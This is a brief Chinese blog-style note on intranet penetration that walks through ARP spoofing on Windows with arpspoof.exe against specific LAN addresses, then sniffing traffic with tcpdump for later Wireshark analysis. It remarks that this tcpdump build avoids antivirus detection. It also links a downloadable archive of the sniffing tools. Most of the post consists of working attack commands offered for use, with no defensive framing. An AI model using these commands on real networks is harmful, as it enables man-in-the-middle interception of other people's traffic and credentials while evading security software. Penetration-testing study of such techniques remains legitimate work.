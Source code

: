 ```yaml
---
title: windows 下tcpdump+arpspoof arp嗅探
date: 2016-06-29 19:12
tags: 内网渗透
---
```


arp 欺骗:

`arpspoof.exe /l`  ##列出网络接口
`arpspoof.exe 192.168.3.1 192.168.3.5 80 0 1`

嗅探：

`tcpdump -D` //查看网络接口
`tcpdump -i 3 -w h.cap -s 0`

`-s0` 表示取消抓包长度限制
否则会导致抓包不全！
`win` 下的 `tcpdump` 好处就是 无需安装`wincap` 纯命令行下操作
杀软不会干掉

随后便可用 `wireshark` 分析数据包

[相关工具下载](https://wolvez.oss-cn-hangzhou.aliyuncs.com/files/%E5%97%85%E6%8E%A2.zip)
